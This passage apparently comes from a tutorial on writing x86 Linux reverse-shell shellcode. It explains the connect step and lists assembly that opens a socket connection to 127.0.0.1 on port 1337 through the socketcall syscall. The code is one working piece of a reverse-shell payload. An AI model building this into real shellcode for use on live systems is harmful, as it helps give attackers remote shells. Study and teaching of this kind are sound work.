 So in assembly first it's required to set the ebx register to 3 which we can achieve by increasing bl two times. Then for the struct we push the arguments in reverse order. So first the IP in network byte order then the port and then the address family. Then we again save the pointer to the top of these arguments in ecx. After that we need to specify the arguments for the connect function in reverse order on the stack. So this is first the length 16 (0x10) then the pointer to the previous arguments / sockaddr struct which is in ecx and then the sockfd from the previous calls. Then save the pointer to these arguments in ecx and finaly specify socketcall by setting eax to 0x66 and executing this syscall with int 0x80.

``` assembly
xor eax, eax
inc bl 
inc bl
      
push 0x0100007F
push word 0x3905 
push word 0x02
mov ecx, esp
push 0x10
push ecx
push edi
mov ecx, esp

mov al, 0x66
int 0x80;
```

![connect](images/connect.png)
